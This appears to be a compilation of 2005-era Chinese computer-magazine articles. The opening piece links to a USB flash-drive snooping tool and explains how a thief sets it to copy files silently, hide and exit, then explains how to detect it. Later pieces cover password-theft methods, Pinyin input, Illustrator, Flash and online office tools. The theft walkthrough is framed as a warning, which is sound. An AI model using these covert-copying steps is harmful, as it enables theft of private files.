为安全起见，人们往往会将重要资料存放于随身携带的闪存盘中，但正因为闪存盘太方便了，人们也会将其挂接到其他电脑上——当你将闪存盘连到别人的电脑上时可千万要小心了，一个盗窃闪存盘资料的“小偷”也许正在将闪存盘中的资料“出卖”……

这不是危言耸听！很多商务人士保存在闪存中的重要材料就在他将闪存盘连接到某些电脑时，被一款叫做“闪盘窥探者”（下载地址：http://www.newhua.com/cfan/200519/UThief.rar）的软件将资料偷走了。

### 1. “闪存窥探者”如何盗取资料？

要想盗窃闪存盘中的资料，对方只要先在电脑中运行“闪盘窥探者”，在“文件保存路径”下输入文件保存的位置（该位置用于存放从闪存盘中复制的资料，一般偷窃者会在比较隐蔽的文件夹中建立子文件夹，让很多人都不会轻易注意到），并单击“开始”按钮即可。

一旦有闪存盘连接到这台电脑中，软件就自动将其中的文件复制到上面设定的文件夹下的“thief”文件夹中。为做到秘密行动，盗窃者会事先设置好“闪盘窥探者”的运行方式，例如去掉“提示复制完成”的勾选，以避免在复制完成后弹出提示露了马脚；为了避免用户在之后查看正在后台运行的软件进程，会勾选“复制完成，自动结束程序”，以让阴谋得逞后便自动“销声匿迹”；盗窃者还会勾上“窗口完全隐藏，按Ctrl + F1激活”。这样设置后，粗心的用户不会觉察到闪存盘中的资料被自动窃取走了。

### 2. 对症下药，预防闪存盘资料失窃

只要软件在运行着，无论它是否隐藏了窗口，在系统进程中都会查到其进程名，默认情况下，“闪盘窥探者”的进程名称为“FDiskThief.exe”，因此，在你将闪存盘连接上去之前，请先在任务管理器中查看一下是否有这个进程。如果有，就先结束它。

注意：查看进程的操作一定要在连接闪存盘之前进行，因为对方如果设置了“复制完成，自动结束程序”，那么你就查看不到窥探软件的进程了。

为增强诱惑性，盗窃者一般会将“闪盘窥探者”的主文件名更名，例如修改为和系统进程非常相似的名字，如“explorar.exe”（第四个字符为数字“1”），尽管这对高手而言是非常容易被识破的，但足以应对不那么仔细的初学者。所以，这并不是最好的办法。

这里再提供一种方法，不过相对来说有些麻烦：由于软件总是要将闪存盘中的资料复制到目标电脑中的，所以，还可以在取出闪存盘后，利用系统的搜索功能，查找目标电脑中是否有和闪存盘中相同的文件，一旦搜索到就说明已经失窃，此时应用右键点击搜索结果中的文件，选择“打开所在的文件夹”项，定位到文件所在的文件夹，确认为你的闪存盘文件后，将它们删除即可。

综合使用上述两种办法，就可以检查出是否有人在电脑中种植了这个“窥探者”软件，从而保证不让重要资料失窃。

（北京 伍班双）

## 黑客如何盗取你的密码

密码被盗取是目前电脑用户所面临的最大威胁之一。面对这种问题应该如何防范呢？下面就简单介绍几种黑客常用的手段。

### 1. 暴力猜解密码

许多人为了记忆方便，使用非常简单的单词或数字作为密码，有人甚至直接用自己的电话号码、生日等。由于这些密码比较短，而且大多数只是由数字构成，排列组合数目并不大，因此黑客可以自己编写一个简单的破解程序对密码进行暴力拆解。破解一个纯数字组成的6位密码，通常只需要不到10分钟的时间。

### 2. 使用障眼法

一些黑客编写一些假冒程序，使用障眼法来窃取用户的账号和密码。例如，以前曾出现过不少盗取QQ密码的工具，它伪装成QQ的登录界面。当用户输入正确的账号和密码后会提示用户输入不正确，此时密码已经悄悄地在后台通过电子邮件的形式发送给黑客。

### 3. 使用网络钓鱼法

你是否收到过有人通过QQ发来的类似“腾讯为庆贺成立六周年，现在开放六位数的QQ免费申请”的消息？其实它就是网络钓鱼的一种。黑客建立类似QQ官方网站的自己的钓鱼网站，用户登录后会被诱骗输入自己的QQ号码及密码。这等于是直接将自己的账号、密码信息告诉黑客。另外，还有一些黑客假冒网络游戏的官方充值站点。当用户输入游戏卡的充值账号和密码后，网站会提示不正确，实际密码已经被记录在假冒网站的数据库中。以前还出现过假冒网络银行网站也是采用同样的原理。

### 4. 使用木马记录键盘操作

黑客会建立含有病毒、木马的恶意网站，当用户浏览这些网站时就可能会被病毒感染。同时黑客也会将病毒、木马直接嵌入到一些游戏、软件当中，当用户运行这些程序时也会触发病毒、木马。

当用户运行这些程序时也会触发病毒、木马。这些木马运行后将自己隐藏起来，在后台偷偷监视用户的键盘操作，记录下用户输入的账号、密码，然后再偷偷将这些信息发送给黑客。一般用户很难察觉出机器有什么异样。

通过上面，可以看到黑客盗取密码所采用的常用手法。要防止密码被盗首先应建立一个比较强壮的密码，即同时包含大小写字母、数字、符号，并且长度不小于8位。其次，应安装最新版杀毒软件，打开全部监控并及时升级。最后，还要注意不要随便登录不知名网站、下载不明程序，以及打开陌生人发来的邮件等。

（瑞星工程师 史瑀）

## 用VB编写极限飞行小游戏

### 玩游戏

不知道大家有没有玩过一款叫做“是男人就飞10000米”的Flash游戏，很经典，不是吗？你必须把毅力和耐力发挥到极限才能使飞机飞行得更远。可是，在玩了N遍该游戏后，我发现它有些缺点。例如，游戏中只有一架飞机上上下下地飞翔，要是有什么宝物吃，一定会更精彩。同时，由于上下高度及障碍物的位置都是完全随机产生的，所以该游戏有时会出现根本过不去的情况。

为了弥补这些缺点，我利用Visual Basic程序重新编写了一下，并且加入一些使得游戏更加耐玩的机制，比如可以吃宝物、随着时间的增加飞机的速度会不断提高等。你可以通过文末所附的链接下载并且试玩一下。

### 学编程

#### 1. Visual Basic简介

为什么我要用Visual Basic来编这个游戏呢？因为，BASIC语言易学易用，非常适合初学者学习运用。当1991年微软推出Visual Basic 1.0版的时候，立即引起了很大的轰动。它是第一个可视化的编程软件，只用鼠标拖拖拽拽就可以构造出窗体。这使得程序员欣喜之极，许多专家把VB的出现当作是软件开发史上一个具有划时代意义的事件。之后，微软也不失时机地连续推出功能更为强大的新版本，如今，在微软最新的.Net构架中，Visual Basic .Net也占有着重要的地位。我们的小游戏并不需要用到.Net的知识，所以仍然采用最为成熟的Visual Basic 6。

#### 2. 游戏分析

让我们来分析一下怎样在游戏中实现飞机从左向右飞行的。首先，其实是背景在从右向左移动，这就是所谓的障眼法，这种手法也常运用于电影拍摄中。其次，隧道顶部和底部是由一连串的矩形模拟的，既然背景在移动，那就意味着最右边的矩形的高度要随机产生，而前面的矩形要依次变化，也就是说，有一个实时刷新的过程。第三，飞机在垂直方向是运动的，即点击鼠标，飞机上升，释放鼠标飞机下降，注意，为了让游戏真实，下降时需有重力加速度！

#### 3. 游戏制作

Visual Basic是一个可视化的程序设计语言，让我们打开Visual Basic，创建一个新的项目并按照如图所示注释设计窗体。

## 开启电脑之门的钥匙——微软拼音输入法

输入法是我们开启电脑之门的一把钥匙，假如你不会使用任何一种输入法，那么有许多基本的电脑应用都将无法完成，如：写邮件、打文章、搜索资料、聊天、发帖子等。输入法有很多种，本文推荐的则是特别适合初学者（其实高手也值得一学）使用的“微软拼音输入法2003”。

### 为什么他们要用微软拼音？

为了制作本期的“菜鸟集训营”，小编特意对编辑部内使用输入法的情况做了一个小调查，结果发现有三分之二的人在用微软拼音输入法。在这“万码奔腾”的时代，他们为什么会做出这种选择呢？

顺其自然派 小特：其实选择微软拼音就是图一个方便，不用东找西找，Windows XP系统里自带，Office中也捆绑，很容易得到。

实用派 Cornel：会拼音就会用微软拼音，这是最直接的理由了。微软拼音除了像小特说的容易得到外，还在于它很智能，支持整句输入，输入一句话一气呵成，比较爽。

狂热派 PK：喜欢一种东西，需要理由么？微软拼音，偶就稀饭。

科学分析派 阿健：我用微软拼音，是因为良好的基础教育让拼音输入法深入人心。此外，微软拼音在掌握多项专利技术以后，不但能连贯地完成一般语句的输入，对含有专业特殊词汇的语句也能输入，有着很好的自适应功能，好用。

半路转向派 摔锅：我刚开始学电脑那会，正流行五笔字型，所以就学了五笔。不过后来发现五笔还是太麻烦了，需要背字根，经常遇到“怪”字不知道怎么拆分等，所以觉得还是拼音比较方便，何况是系统自带，不用担心用别人的电脑时找不到输入法了。

### 实例1: 磨刀不误砍柴功—准备好输入法

微软拼音输入法与Windows XP捆绑在一起，系统安装好后，随时按Ctrl + 空格键（如果系统中有多种输入法，则需要按几次Ctrl + Shift键）调出其状态条，此时就可以在各种应用软件（如：Word）中输入文字了。不过XP自带的是3.0版，最好去微软网站：http://www.microsoft.com/downloads/details.aspx?familyid=3C381308-E169-41F3-812E-AA8774162795&displaylang=zh-cn 下载2003版，这也是免费的，更加好用。如果你安装了Office 2003软件，则一般会自动用微软拼音2003版替换系统自带的3.0版。

有时会出现一些意外情况：你在自己（或者别人）的电脑中怎么也找不到微软拼音输入法。这极有可能是被别人删除了，没关系，很容易就能将它找回来：

- 第一步：右击系统托盘内的语言工具状态条图标（标有“CH”或“EN”的图标），从右键菜单中选“设置”，打开“文字服务和输入语言”对话框。
- 第二步：单击其上的“添加”按钮，在随后出现的对话框中，“输入语言”选择“中文（中国）”，“键盘布局/输入法”选择“微软拼音输入法”（见图1），连续点击“确定”返回即可。
- 第三步：还有一些人可能连语言工具状态条都找不到，这也不用着急，在“控制面板”中双击打开“区域和语言选项”，点选“语言”选项卡，再单击“详细信息”按钮即可打开“文字服务和输入语言”对话框，然后参照第二步操作即可。

### 实例2：小试牛刀，畅快淋漓聊QQ

当然啦，岂止是聊QQ，在所有需要输入文字的软件中，都同样可以使用下面介绍的方法，比如在Word中写文章，在Foxmail中写邮件等。注意：下文如没有特别说明，输入法版本指的是都是微软拼音输入法2003。

- 第一步：打开QQ的聊天窗口，按Ctrl + 空格键（或按几次Ctrl + Shift键）调出微软拼音输入法状态条。除此之外，也可以通过鼠标来选择输入法，如图2所示，单击语言工具状态条上‘CH’右侧的图标，再从弹出菜单中选择‘微软拼音输入法2003’即可。
- 第二步：如果输入法图标右侧不是‘体验’字样，请点击它，并从弹出菜单中选择‘微软拼音输入法2003’项（见图3），后文都是在此模式下进行的。‘新体验’是微软拼音输入法2003新设计的输入风格，你只需连续输入汉语拼音即可，输入法会自动掌握拼音转汉字的时机。比如你连续输入拼音：zuijindeshaojinvshengjimunikangliaomeiyou，输入法会自动及时地转换成所需要的汉字。

#### 小提示

微软拼音输入法采用的汉语拼音方案是1958年2月11日第一届全国人民代表大会第五次会议批准的《汉语拼音方案》。输入的时候，只要对应键盘上的字母键，一一输入汉语拼音的字母即可，如输入‘拼音’，顺序按字母键‘pinyin’就可以了。

初次使用微软拼音，可能会碰到一些词语输入不了的问题，比如‘女生’和‘律师’这两个词。如果你输入‘nvsheng’和‘lvshi’，这两个词肯定是出不来的，因为在微软拼音中，是以‘v’来代替汉语拼音的‘ü’（‘迂’的拼音字母），所以应该输入‘nvsheng’和‘lvshi’。不过要注意，在v、j之后的ü（‘迂’的拼音字母），又必须使用英文字母u。

- 第三步：连续输入时，不管是转换后的汉字还是正在输入的汉语拼音，都会带有一条虚线下划线，这表示当前的输入为可编辑状态，通过左右方向键移动，可以定位到需要修改的文字上，再根据下方的输入条提示，选择正确的文字即可。如图4所示，正确写法应该是‘超级女声’，所以定位到‘生’字后，按4键选择‘声’即可。
- 第四步：按空格键可结束编辑状态，接着继续输入后面内容即可。按回车键也可以结束编辑状态，不过如果输入的内容中还有拼音没有转换成汉字，则它不会自动转换，而是固定为字母了。

### 实例3：巧识南腔北调人

有些人说话的口音很重，对那些声音极为相似的声韵母不容易分清，比如‘最近’一词，如果你发音不正确的话，就有可能拼成‘zuij’、‘zhujin’、‘zuijing’等，这时就要凭运气多拼几次了，速度自然会变慢。还好，微软拼音带有模糊拼音的功能，使我们能减少一些因发音而导致的尴尬问题。

- 第一步：单击微软拼音输入法状态条上的‘功能菜单’按钮，在弹出菜单中点击‘输入选项’打开输入选项对话框。如果你的状态条没有显示完整，你可以将光标移到状态条左侧，当光标变成左右双箭头状时，按下鼠标左键向左拖动，即可让状态条完全显示出来。如果你无法拖动状态条，那可能是因为锁定任务栏了，可在任务栏空白处右击，再点击取消‘锁定任务栏’项即可。
- 第二步：在输入选项对话框中，点击选中‘模糊拼音’项，再单击其右侧的‘模糊拼音设置’按钮，选中那些你不容易分辨的拼音组（如对‘zh，z’和‘n，l’不分的朋友，就可以勾选这两组选项），连续确定后返回。
- 第三步：现在你再输入‘zuij’或‘zhujin’，都可以显示出词组‘最近’了。

### 实例4：“画”生僻文字，“查”偏旁部首

如果遇到不认识的生僻字，不知道怎么拼写，怎么办？微软拼音输入法中所带的输入板工具，输入任何文字都不在话下。

- 第一步：单击微软拼音输入法状态条右下角的‘选项’按钮（即倒三角图标），从弹出菜单中勾选‘输入板’项，即可将其加入到状态条中。
- 第二步：单击状态条中的‘开启/关闭输入板’按钮，打开输入板窗口。首先点击‘清除’按钮清空输入窗口，然后像用铅笔一样，用鼠标在输入窗口中‘画’出文字，右侧窗口中会检索出与你所画相似的所有文字，按相似程度的高低排列。将光标移到文字上面，会显示出该文字的拼音输入法代码，单击你想要的那个文字就可以将其输入到编辑窗口中了。如果你有手写板的话，‘写’起字来会更快的。
- 第三步：通过输入板上的‘字典查询’功能，可以像查新华字典一样输入所有的汉字，并且可以通过它输入所有的偏旁部首。单击左侧的书本一样的图标切换到字典查询界面，在这里可以通过笔画数找到所有的汉字。点击‘GB2312’标签，这里可以根据笔画数找到需要的偏旁部首，单击即可输入。将光标指向偏旁部首，还可以显示出它的拼音输入代码。只要记住这些代码，就可以直接输入偏旁部首了。

### 实例5：繁体论坛里也灌水

笔者经常去我国台湾省、香港特区等地区的一些电脑技术论坛闲逛，淘来过不少好选题。不过这些地区的论坛一般使用的是BIG5码繁体字系统，而且那些网站的大多数浏览者对简体中文也不是很熟悉，要想发帖讨论，自然使用繁体字比较适宜。解决方法之一就是先在Word中输入好内容，再通过菜单‘工具→语言→中文简繁转换’命令转换为繁体再发帖。其实使用微软拼音，可以直接输入繁体字。

- 第一步：单击‘选项’按钮，从弹出菜单中选中‘字符集’，将其加到状态条上。
- 第二步：单击状态条上新出现的‘字符集’按钮，从弹出菜单中选择‘繁体中文’，这时输入的汉字就都是繁体了。如果要恢复输入简体，再选择‘简体中文’即可。

### 实例6：自造词、自学习，让输入法更聪明

- 第一步：单击状态条上的‘功能菜单’按钮，从弹出菜单中点击‘输入选项’打开选项对话框，切换到‘语言功能’选项卡，将其中‘自学习’和‘自造词’两项选中，确定后返回。

选中了‘自学习’功能，在你平时输入文字的过程中，输入法就会‘记忆’你的操作，并根据这些‘记忆’来调整词库，下一次便能智能地显示出你所想要的词语来。‘自造词’功能则可以让你自己定义输入法词典中（不包括专业词库）没有收录的词语；也可以将常用短语、缩略语等定义成快捷键以提高输入速度。自造词有以下两种方法：

- （1）在线用户自造词典 在线用户自造词典，顾名思义就是在输入拼音的同时自定义词组，当输入文字还处于可编辑状态时（即有虚线下划线状态），联合使用Shift键、左右方向键选中要自定义的词组（比如：超级女声），然后按下回车键，就可以将选中的词组加入到用户自定义词典中了。
- （2）离线用户自造词典 点击输入法状态条上的‘功能菜单’按钮，从弹出菜单中选择‘自造词工具’打开该工具窗口。我们会发现，先前在线自定义的词组也包括在其中。双击已定义的词组可以为它加上快捷键的形式，如图10所示，将‘超级女声’的快捷键设置为‘cjns’了。以后，只要输入‘cjns’，马上会就显示出‘超级女声’来。注意，快捷键前面一定要加上引导符‘`’，就是数字1左侧的那个按键符号。双击自造词工具界面上的空行，可以创建出任意的自定义新词。当我们根据实际情况建立起自己的词库后，会大大加快输入的速度。

熟练使用微软拼音输入法后，一般人一分钟打五十字左右是没有问题的，这样聊天、写文章时，就会轻松自如了。限于篇幅，这里就不多介绍了，大家可以单击状态条上的‘帮助’按钮（即‘？’号图标），了解更多技巧。

### 老鸟支招

#### ★输入偏旁部首有妙招

有些偏旁部首本身就是独立的文字，如：山、马、日、月等，只要按其实际的读音输入即可；而大多数偏旁部首本身是不单独成字的，如：丿、纟等，为了方便输入，微软拼音输入法便以偏旁部首名称的首字读音作为其拼音，比如：‘丿’（撇）用‘pie’输入，‘纟’（绞丝旁）用‘jiao’输入，‘亻’（单人旁）用‘dan’输入等。

#### ★简拼法为输入提速

一般通过全拼输入，其实在输入常用词组或成语时，只需按顺序输入词组各个字的声母即可，如‘一日千里’，只要输入字母‘yq’就可以了，‘中国’则可以输入字母‘zg’。注意：在整句输入时，最好不要用简拼，那样拼写正确的概率很低。

#### ★快速中英文混合输入

当需要连续输入英文时，可单击输入法状态条上的‘中’字，将它变成‘英’，这时就可以输入英文了。如果是中英文混合输入，用下面的方法输入英文会更快：
1. 输入单词第一个字母时，按下Shift键输入大写字母，则微软拼音输入法会自动将其识别为英语单词，按空格或回车键结束单词输入。
2. 输入英文后，直接按回车键。

#### ★输入大写数字

平时工作中，有些数字需要以大写的形式来写（比如一些账目的金额）。其实大写数字就是繁体字，可借鉴实例5中的方法切换到繁体字状态再输入数字的拼音。不过在默认情况下，大写数字不是微软拼音的首选项，必须通过PageUp或PageDown上下翻页才能在输入提示条的后面找到它们。

#### ★输入特殊符号

单击输入法状态条上的‘功能菜单’按钮，指向弹出菜单中的‘软键盘’项，会发现其下包含了希腊字母、数学符号、数字序号、数学符号、特殊符号等13个软键盘，根据需要选一个（如选中‘特殊符号’），将显示一个虚拟键盘界面，点击所要符号即可将其输入到文档中。右击虚拟键盘，选择‘关闭软键盘’项将返回正常输入状态。

### 火速链接

同样捆绑于Windows系统中的‘智能ABC’也是一种拼音输入法，有关其输入特殊符号的方法，可参见本刊2005年第13期上的《体验智能ABC的特殊符号输入》。

（编者）矢量图形放大到很多倍后依然能保持精细的分辨率，而不用担心它会像位图那样放大到一定程度时会出现恼人的锯齿现象。另外，矢量图形的色彩与形象非常鲜活，有着很强的个性。作为一款专业的矢量绘图软件，Illustrator为广大的电脑平面设计者所熟知，它富有创意的选项和功能强大的工具，可以让你有效地在网上、印刷品或者其他任何地方发布你的艺术作品。

## 插画大师Illustrator

## 实例1：轻松制作点彩画

如图1所示，是本例最终完成的效果，图片中的人物都是由各种各样颜色的圆点组成，感觉非常酷。效果图的右下角，是原始图片。


第一步：启动Illustrator，其界面与其同门师兄Photoshop非常相似，操作方法也有很多相同的地方，看起来应该不陌生吧。执行“文件→打开”菜单命令，打开准备做点彩画处理的图片(见图2)。



第二步：选中工具箱中的“选取工具”(快捷键为:V)，用它点击一下打开的图片，执行“滤镜→制作→对象马赛克”菜单命令打开马赛克滤镜对话框；如图3所示，将拼贴数目的宽度设置为60，再单击“使用比例”按钮让它自动计算出高度值，这样可以确保产生的马赛克点为方形；拼贴间距的宽度和高度都设置为0.5，再选中“删除栅格”项，最后单击“确定”返回。拼贴数目设置得越大，马赛克点就越小越细，处理速度也相应越慢，所以大家可以根据自己需要来设置其大小。



第三步：做完马赛克处理后，再选择图片时，它会被一层蓝色方格所覆盖。确保图片为选中状态，执行“效果→风格化→圆角”菜单命令，在打开的圆角滤镜对话框中，将半径设置为3mm，确定后返回。在页面空白处点击一下鼠标以取消对图片的选取状态，这时就可以看到本文开头所示的效果了。

第四步：经过上面处理，原来的位图已变成了矢量图，执行“文件→保存”菜单命令，就可以把它保存为AI或EPS矢量格式图片了。这两种格式，可以在其他图像处理软件(如Photoshop)中随意打开，并可以转换成其他图像格式(如JPG、BMP、TIF等)。

## 实例2：杨柳依依别样情

本例将学习使用几个常用工具绘制图像，不过请放心，一点也不复杂，很容易就能完成。最重要的，通过本例的练习，我们还可以掌握Illustrator自定义笔刷技术，从而发挥想像力，制作出自己的别具一格的艺术笔刷来。

第一步：启动Illustrator，单击“文件→新建”菜单命令新建一个文件。双击工具箱底部的“笔画色”图标，在打开的颜色拾取器窗口中将笔画颜色设置为绿色，确定后返回。接着点选工具箱中的“线段工具”(快捷键为:\)，如图4所示，在页面中画一条水平直线作为树枝，此时线段为选中状态，在“笔画”面板上，将“笔画粗细”设置为2pt(如果屏幕上没有显示“笔画”面板，可按F10键将其调出)。



第二步：按住工具箱中的“矩形工具”图标不放，从弹出的子工具箱中点选“椭圆形工具”(快捷键为:L)，回到页面中，由上往下画一个细长的椭圆，这个将作为树叶。点击工具箱上的“切换填充与笔画”弯箭头按钮(快捷键为:X)，这样我们在前面设置的笔画色就转为填充色了，刚才所画的椭圆形也自动填充上绿色。

第三步：点选工具箱上的“选取工具”(快捷键为:V)，则选中的椭圆形四周显示出八个节点，拖动椭圆形可移动它的位置，拖动它四周的节点可调整椭圆形的大小，将光标移到节点的外侧，则光标变成弯曲的箭头状，此时拖动鼠标可以旋转椭圆形。本例，我们将椭圆形稍微旋转了一下，并将它拖放到直线的左侧上方，如图5所示。


第四步：按住Alt键不放，选取工具的黑箭头光标将变成双箭头状；此时拖动选中的椭圆形，可以对它进行快速复制。以此方法再复制两片树叶(即椭圆形)进行放置。

第五步：全选三片树叶，方法是用选取工具拉出一个方框圈住它们，但注意不要选中树枝(即那条直线)，然后同样按住Alt键不放，拖动选中的树叶，就可以快速将它们复制一份了。此时刚复制的树叶依然是选中状态，执行菜单命令“对象→变换→映射”，在打开的映射对话框中，选择“水平”，“角度”为0，确定后，复制的树叶就会翻转一个角度。将它与上面的树叶错开一段距离放置，至此，我们自定义的笔刷形状就画好了。

第六步：全选所有绘制的对象，然后将它们拖到“画笔”面板上(注意，不是“笔画”面板，它的显示快捷键为F5)，放开鼠标键后会弹出新建笔刷对话框，选择“新建 图案画笔”项，单击“确定”又会打开画笔选项窗口，可以为新的画笔取一个名称。另外，一定要在右下角选中“近似于路径”项，最后单击“确定”返回，这时会看到“画笔”面板中多了一种笔刷图案。

第七步：在工具箱中选中“笔刷工具”(快捷键为:B)，再在画笔面板中选中上面所制作的图案笔刷，就可以随意画出可长可短、可直可曲的不同形态的柳叶图案来，并且可以随时调整(见图6)。



（梦与梦寻）

## 一石激起千层浪——Flash 水波效果实战

“水光潋滟晴方好”，微风轻拂，水波荡漾，那将是多美的一幅诗情画意的景象啊。今天，就让我们在Flash中再现这一美景。本文基于Flash MX 2004(以下简称Flash)写成，图片素材及Flash源文件可从http://www.newhua.com/cfan/200518/FlashRip.rar下载。

### 第一步：创建图形元件

1. 启动Flash MX 2004，新建一个空白的Flash文档。按Ctrl + R快捷键，导入一幅准备添加水波效果的图片(本例导入文件为：seabed.jpg)，选中工具箱中的任意变形工具(快捷键为Q)适当调整好图片的大小及位置。点选图片，在属性面板中查看一下它的宽和高的大小，然后按Ctrl + J键调出文档属性对话框，将当前文档尺寸的宽和高修改成与图片一样大小。
2. 点选导入的图片，按F8键将它转换成元件，命名为“seabed_gr”，“行为”设置为“图形”。
3. 在时间轴面板左侧，双击层名称“图层1”将其改成“背景”。

### 第二步：创建水波影片剪辑

1. 按Ctrl + F8键创建一个新的元件，命名为“ripple_mc”，“行为”设置为“影片剪辑”。
2. 按Ctrl + L键显示出库面板，从中将上面创建的图形元件“seabed_gr”拖到工作区。点选该图形，在属性面板中将它的“颜色”属性设置为Alpha，并将值设置为0%。
3. 点选第5帧，按F6键将它转换成关键帧，点选该帧中图片(注意：因为之前将图片的Alpha值设置为0%，所以这里看不到图片只能看到一个选框)并在属性面板中将它的Alpha值设置为99%。
4. 在两个关键帧之间单击鼠标右键，从右键菜单中选择“创建补间动画”。
5. 在第15及第20帧处，也按F6键建立关键帧，并将第20帧中的图片Alpha值设置为0%。在第15至20帧之间单击鼠标右键，并从右键菜单中选择“创建补间动画”。
6. 点选第5帧，通过任意变形工具将图片缩小一些，宽和高约缩小5个像素；点选第20帧，将其中图片的宽和高放大大约5个像素。
7. 执行菜单命令“插入→时间轴→图层”(或单击时间轴左下角的“插入图层”按钮)新建一个图层，在新图层第1帧的舞台上画一个中间透明的圆环图形，圆环最好与图层1中图片的中心位置对齐。

### 小提示：如何绘制透明挖空的圆环图形

在工具箱中，首先选中椭圆工具(快捷键为O)，然后单击下方“颜色”区中的铅笔图标右侧的按钮，在弹出的调色板右上角点击红斜杠图标,将笔触颜色设置为“无”，再单击下面的喷桶图标，将填充色设置为黑色。将光标移到工作区，拖画出一个没有边框色的黑色大圆形。接着新建一个图层(这是一个临时图层，完成圆环绘制后可删除它)，在新图层上再绘制一个白色的小圆形，同样也不要边框色。将白色小圆的中心与黑色大圆的中心对齐，然后选中白色小圆，按Ctrl + X键剪切，再进入绘制黑色圆形的图层，按Ctrl + Shift + V键粘贴,则黑色大圆形的中间被粘贴上白色小圆，变成了一个圆环。不过白色也是一种色彩，现在圆环还不是透明挖空的;所以还要进行一下处理:将光标在工作区空白处点击一下，取消对所有图形的选择，然后再点选刚刚粘贴过来的白色圆形，按Delete键删除，圆环图形就变成真正的挖空图形了。

8. 点选图层2的第20帧，按F6键建立关键帧，然后将第20帧中的圆环放大。圆环要放到多大，取决于你想让水波扩展的范围有多大。将放大后的圆环的圆心与图层1中图片的中心位置对齐。点选图层2的第1帧，然后在属性面板中，将“补间”设置为“形状”,一个形状动画就创建好了。
9. 右击图层2，从弹出菜单中选择“遮罩层”。至此，水波影片剪辑就制作好了，进入任意一帧观察一下，会发现背景图片不见了，只有圆环范围之内的图片才能显示出来，这就是所谓的遮罩效果了。

### 第三步：将水波影片剪辑放入场景

1. 为防万一，先按Ctrl + S键保存文件(本例保存为ripple.fla)。
2. 单击编辑条上的“场景1”回到主场景中，然后单击时间轴面板左下角的“插入图层”按钮在“背景”层上再新建一个图层，将其命名为“水波”。将上面创建的水波影片剪辑(ripple_mc)拖放到舞台的中央。注意移动拖入的影片剪辑，使它与背景层中的图片位置一致。
3. 按“Ctrl + 回车键”预览一下，图片是不是有了一石激起千层浪的感觉。预览的时候还会看到舞台范围之外的东西，大大影响欣赏的效果，你可以双击生成的ripple.swf文件在Flash Player播放器中观看，效果会好多了。为了让水波的产生有一定的节奏感，你还可以将“背景”层延长到第30帧(点选第30帧，再按F5键插入帧即可)，再将“水波”层延长到第20帧，让“水波”层适当短一点就可以了。

> 小编有话说:知其然还要知其所以然，上面这个实例其实比较简单，它主要有以下几个制作要点:
> 1. 在第二步中创建水波影片剪辑的时候，对图片分别做了一次缩小和放大处理，主要目的是让产生的水波有一定的动感。
> 2. 要仔细体验小提示中有关透空效果的圆环的制作，因为有些朋友可能不太容易理解白色与透明的区别。
> 3. 用来产生水波效果的遮罩图形圆环的边不能太宽了，否则效果会不自然。

(北京 梦里花开)

## 有我网络在，你们软件下岗吧！

微软前几年提出的.net战略可以说是一个梦想，它包含的思想之一是“网络服务”(其实这一想法也不是微软的原创):你的电脑中，只需要安装一个操作系统以及一个能够上网的浏览器即可，其他任何软件都不用装，所有任务都能通过访问网络来完成，什么Office办公、聊天、画画、听音乐、玩游戏等，无所不能。然而几年时间过去了，微软的.net战略似乎没有太大的进展。与其临渊羡鱼，不如退而结网，今天就让我们自己来打造几个.net办公方案吧！当然，笔者并非是说看完本文后，就真的可以立即卸载掉已安装的各种应用软件，但至少会给我们多一种选择。

### 实战1:免费的移动“办公室”

如果你有一些Office办公文档需要及时处理，但此时你正好出差在外，或你是在朋友的家里使用电脑，而外面的这些电脑中没有安装微软的Office软件，怎么办？没关系，求助于下面介绍的在线办公系统(还是中文版的呢)，没有微软的Office软件，我们照样能编辑处理Word文档、Excel表格、PowerPoint演示文稿，功能非常强大。

第一步:首先登录http://online.thinkfree.com/，单击网页上的Sign up Now!(立即注册)按钮进入注册页面。

第二步:注册页面中根据提示填写名字、E-mail地址、密码等信息，其中的User ID(E-mail)一项，一定要填写你自己的真实的E-mail地址，通过验证的用户ID及密码将发到这个信箱中。点选下面的复选框，表示你已经阅读了ThinkFree.com的协议书，最后单击底下的Submit(提交)按钮，如果页面自动转到你的私人文件夹(My Folders)则表示注册成功了，同时你也获得了30MB的网络空间。

第三步:以后再登录时，只要在主页面的地方输入User ID(即邮件地址)及密码，单击Go按钮登录，接着单击Open My Folders按钮即可进入你的私人文件夹了。可以看到；该文件夹中已经有了三个样本文件，分别是XLS、DOC、PPT类型。对这三个类型的文件，大家自然是不陌生了，它们就是Excel、Word、PowerPoint的文件格式。

第四步:点击这些文件会弹出一个下拉菜单，你可以进行打开(Open with ...)、下载(Download)、改名(Rename)、发送(Send File)、贴到博客上(Post to Blog)等多种操作，这里我们选择打开(Open with ...)命令即可在浏览器中打开它们查看并编辑了。不过你的系统中如果还没有安装Java虚拟机，则会弹出对话框(如果打了SP2补丁，提示会稍有不同)，要求安装Java插件，单击“是”下载插件，并按照提示一步步安装好它。完成后又会弹出是是否信任“ThinkFree Corp.”的安全警告框，单击“是”按钮确认。第一次打开文件，速度会很慢，需要耐心等待一会。

第五步:如果要创建新的DOC文件，可点击界面上的New Document;创建PPT演示文稿文件，点击New Presentation;创建XLS电子表格文件，点击New Spreadsheet。如图1所示，是ThinkFree在线Office中的Calc(对应于微软的Excel)和Write(对应于微软的Word)的界面(另一个程序Show对应于微软的PowerPoint),是不是跟微软的Excel及Word非常相似。它们的编辑操作方式也与微软Office基本相同，这里就不详细介绍了。编辑好文档后，点击菜单“档案→储存”命令可将文档保存到本机上，而且这些文件是完全可以在微软Office软件中再打开编辑的。



注意:上面实例由小编于2005年9月12日晚验证通过，但由于网络的不确定性，不能保证以上信息总是精确不变的。

### 实战2:随身携带的输入法百宝囊

用惯了五笔字型的人，偶尔在一台没有安装五笔输入法的电脑上进行操作，其痛苦之情是没办法用语言来表达的。反之，用惯拼音的人在只装有五笔的电脑上操作，感觉也应该是一样的。下面介绍的网站则可以解除你的后顾之忧，在任何一台电脑上，只要能上网，无需安装任何输入法，五笔拼音任你挑。而且不管你使用的是中文、英文、法文或是其他语言的操作系统，都可以通过它来输入中文。

第一步:首先登录到http://www.inputking.com/网站，在主页左上角有多种输入法供你选择，笔者使用的是五笔，自然要选择五笔字型(86版)了，接着再选择“简体”，并使用本地词库，最后单击下面的“启动系统”按钮。

第二步:在接下来弹出的在线中文输入系统网页中，你就可以在中间的文本框中按你所选择的输入法输入文字了，如果有重码的话，还可以按左侧提示选择正确的词汇。在这个窗口中，单击输入法类型下拉按钮，可以随时更换其他输入法。

第三步:单击右侧“复制全文”按钮，就可以将输入的文字全部复制到剪贴板上，在其他需要输入中文的地方，按Ctrl+V键粘贴就可以了(见图2)。怎么样，是不是很方便。



### 实战3:网页版Photoshop货比三家

